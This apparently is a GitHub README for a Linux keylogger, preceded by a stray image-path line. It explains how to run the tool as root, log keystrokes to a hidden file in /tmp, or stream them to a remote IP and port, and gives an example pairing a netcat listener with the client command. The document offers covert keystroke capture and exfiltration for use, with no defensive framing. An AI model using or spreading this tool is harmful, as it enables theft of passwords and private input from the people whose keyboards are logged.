 # Simple_Local&Remote_Keylogger

Simple keylogger that runs on Linux.<br>
It must be run as root.

__________________________________________________________________________
Usage: #./slk [OPTIONS]<br>
<br>
OPTIONS:<br>
	-d: input device (if not specified, the default device is '/dev/input/by-path/***kbd')<br>
	-o: output file. (It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt')<br>
	-m remote -a \<IP-ADDR\> -p \<PORT\>: it sends all the keystrokes on the remote server located at \<IP-ADDR:PORT\><br>
<br>
EXAMPLE<br>
Server$ nc lvp 8888 > logger.txt<br><br>
Client#./slk -m remote -a 127.0.0.1 -p 8888<br>
__________________________________________________________________________
<br>(Keys are mapped on English keyboard)
